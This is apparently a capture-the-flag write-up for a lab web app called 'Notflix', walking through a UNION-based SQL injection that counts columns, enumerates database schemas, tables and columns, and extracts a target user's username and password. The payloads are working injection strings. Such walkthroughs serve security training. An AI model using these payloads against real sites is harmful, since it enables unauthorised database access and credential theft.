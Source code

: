 # Notflix

## Description
Welcome to Notflix. You can search for movies here and the Top 3 will be shown. You can also login to watch the movies!
Your task is to login as Eric Law.

## Solution
1. Upon pressing the 'Find Movies' button you will come to realise we can only see the first three rows of the table.
   
2. Let's also confirm that there are only two columns to begin with. When we enter the sql injection `' order by 3-- -`, we still do not see any errors. When we enter `' order by 4-- -`, we finally get an error. It appears there are 3 columns, but we can only see 2 of them.
   
3. Let's check which columns we are seeing. By entering `cn' UNION select 1,2,3-- -`, we can see that only the second and third columns are being displayed.
   
4. With this information, we can start exploring the database.

     `cn' UNION select 1,schema_name,3 from INFORMATION_SCHEMA.SCHEMATA-- -`

   There are 2 schemas: Information_schema and public

     `cn' UNION select 1,GROUP_CONCAT(TABLE_NAME  SEPARATOR ' , '),3 from INFORMATION_SCHEMA.TABLES where table_schema='INFORMATION_SCHEMA'-- -`

   It appears there isn't any useful tables in information_schema. Let's try the same injection on the public schema.

   `cn' UNION select 1,GROUP_CONCAT(TABLE_NAME  SEPARATOR ' , '),3 from INFORMATION_SCHEMA.TABLES where table_schema='PUBLIC'-- -`

   Maybe we can use the users table to find Eric Law's username and password.

   `cn' UNION select 1,GROUP_CONCAT(COLUMN_NAME  SEPARATOR ' , '),3 from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -`

   We can use the following commands to find Eric's login information: firstname, username, password

6. Let's find Erics information! Use `cn' UNION select 1, username ||', '|| password, 4 from public.users where firstname='Eric'-- -`

    <img width="340" alt="image" src="https://github.com/swaathiLaks/Mimosa-Solutions/assets/113973466/682eae12-220d-411e-a696-c040924bc0c1">
